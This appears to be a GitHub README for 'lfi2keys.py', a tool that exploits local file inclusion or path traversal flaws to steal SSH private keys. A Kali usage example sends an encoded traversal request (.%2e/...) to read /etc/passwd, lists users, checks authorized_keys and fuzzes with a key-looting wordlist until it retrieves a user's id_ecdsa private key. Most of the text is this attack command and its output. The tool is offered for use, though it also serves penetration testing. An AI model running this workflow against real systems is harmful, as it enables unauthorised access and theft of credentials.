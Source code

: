 # Usage
Provide the full path of the affected endpoint with the LFI/ path traversal vulnerability with the `/etc/passwd` file and a private key [wordlist](https://github.com/PinoyWH1Z/SSH-Private-Key-Looting-Wordlists).

```bash
┌──(kali㉿DC07 | 2025-02-12 00:13:37)-[~]
└─$ python3 lfi2keys.py -u https://127.0.0.1/cgi-bin/.%2e/.%2e/.%2e/.%2e/etc/passwd -l /usr/share/wordlists/ssh-key-looting/ssh-priv-key-loot-medium.txt   

  _    ___ ___ ___ _  _______   _____ 
 | |  | __|_ _|_  ) |/ / __\ \ / / __|
 | |__| _| | | / /| ' <| _| \ V /\__ \
 |____|_| |___/___|_|\_\___| |_| |___/
                                      
LFI to SSH Private Keys - Automated Looting Script

[+] Valid /etc/passwd file found
[+] Active users exported:
    miranda -> /home/miranda
    steven -> /home/steven
    mark -> /home/mark
    nick -> /home/nick
[+] Checking for authorized_keys ...
[!] Found authorized_keys for nick: https://127.0.0.1/cgi-bin/.%2e/.%2e/.%2e/.%2e/home/nick/.ssh/authorized_keys
    [*] SSH key-based authentication is enabled for user nick.
[+] Starting to FUZZ
[+] Private key found for nick at: https://127.0.0.1/cgi-bin/.%2e/.%2e/.%2e/.%2e/home/nick/.ssh/id_ecdsa
[+] Done (～￣▽￣)～
```

# Credits
- [PinoyWH1Z](https://github.com/PinoyWH1Z) for his [wordlists](https://github.com/PinoyWH1Z/SSH-Private-Key-Looting-Wordlists)